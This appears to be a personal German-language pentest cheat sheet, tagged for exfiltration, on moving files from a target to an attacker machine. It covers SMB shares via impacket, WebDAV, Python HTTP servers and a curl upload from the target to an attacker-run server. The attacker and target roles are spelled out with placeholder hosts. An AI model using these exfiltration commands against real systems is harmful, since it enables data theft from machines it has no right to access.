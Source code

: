  
 #exfil 
 #transfer
#justanothertag 
#ffuf/myass
#myass/ffuf
 
---
## Windows

### SMB Share

**Angreifer**
Einen share auf port 445 erstellen. **Zugangsdaten werden ab Smbv2 benötigt!** 

```bash
sudo impacket-smbserver -username pwn -password pwn -debug -smb2support -ip LHOST SHARENAME /local/path/share
```

**Zielsystem**
Ein neues Smbmapping unter `P:` erstellen:

```powershell
New-SmbMapping -LocalPath 'P:' -RemotePath \\RHOST\SHARENAME -username pwn -password pwn
```

Dateien können per `cp path/soruce path/dest` kopiert werden. Mit Zugriff per RDP kann der Share auch über den File Explorer benutzt werden.

### WebDAV

**Angreifer**
Einen WebDAV Server mit anonymous login im momentanen Ordner auf allen Interfaces und Port 80 starten.

```bash
~/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root $(pwd)
```

---

## Universal

### Python simple http.server

Dateien können auf dem System gehostet werden wenn Phyton installiert ist

```bash
# Den momentanen Ordner bereitstellen
python3 -m http.server
# Spezifischen Pfad bereitstellen
python3 -m http.server -d /path/dir
```

### Python upload server

Falls ein bereitstellen der Daten per http nicht funktioniert können diese auch an einen Server hochgeladen werden.

**Angreifer**
Python server starten

```bash
python -m uploadserver -d /path/exfil
```

**Zielsystem**
Dateien per curl an den upload Server posten

```bash
curl -X POST http://127.0.0.1:8000/upload -F 'files=@multiple-example-1.txt' -F 'files=@multiple-example-2.txt'
```

## Todo

- [ ] Datentransfer
- [x] SMB Share
- [?] WebDAV
	- [?] WebDAV: Zielsystem fehlt
- [x] Python simple http.server ✅ 2024-07-26
- [?] Python uploadserver
	- [?] Python uploadserver: Powershell Beispiel